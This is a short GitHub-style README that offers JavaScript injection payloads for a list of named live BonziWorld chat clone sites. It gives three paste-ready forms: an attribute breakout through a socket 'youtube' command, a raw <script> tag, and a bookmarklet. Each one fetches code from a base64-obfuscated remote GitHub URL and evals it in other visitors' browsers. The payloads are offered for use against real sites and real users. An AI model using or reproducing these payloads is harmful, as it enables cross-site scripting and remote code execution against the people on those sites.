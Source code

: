 # ULTIMATE JAVASCRIPT
Scripts for fun
# How to use?
simply go into the websites list and
paste this script<br>
`socket.emit('command', { list: ['youtube', '71Uyt5tTnyg" onload="fetch(atob(\'aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v\')+\'???\'+atob(\'Lmpz\')).then(r=>r.text()).then(t=>eval(t))" u="'] });`<br>
and if you have sanitize off do this<br>
`<script>fetch(atob('aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v')+'???'+atob('Lmpz')).then(r=>r.text()).then(t=>eval(t))</script>`<br>
if you'd like you wanna press it from the bookmark<br>
`javascript:const%20jvnm%20%3D%20prompt%28%22Enter%20script%20name%20%28UPPERCASE%20ONLY%29%3A%22%29%3B%20const%20vidid%20%3D%20prompt%28%22YTVideo%20id%2C%20%28OPTIONAL%29%22%29%3Bsocket.emit%28%27command%27%2C%20%7B%20list%3A%20%5B%27youtube%27%2C%20%60%22%24%7Bvidid%7D%22%20onload%3D%22fetch%28atob%28%27aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v%27%29%29%2Bjvnm%2Batob%28%27.mpz%27%29%29.then%28r%3D%3Er.text%28%29%29.then%28t%3D%3Eeval%28t%29%29%22%20u%3D%22%60%5D%7D%29%3B`
# What are the websites?
https://bonziworld-classic-plus-plus-edition-mlcr.onrender.com<br>
https://bonziworld-revived-1.onrender.com<br>
https://seamusmario-s-bonziworld-revived-2020-qsal.onrender.com<br>
https://bonziworld-revived-2-sll4.onrender.com<br>
https://marginworld.onrender.com<br>
https://bonziworld-revived.zapto.org<br>
https://bonziworldberylicarus.onrender.com<br>
https://bonziworld-refoundation.onrender.com<br>
https://972d29e7-6c6e-42e1-a16d-4a8b631f9697-00-36qe1itsrb9f3.spock.replit.dev
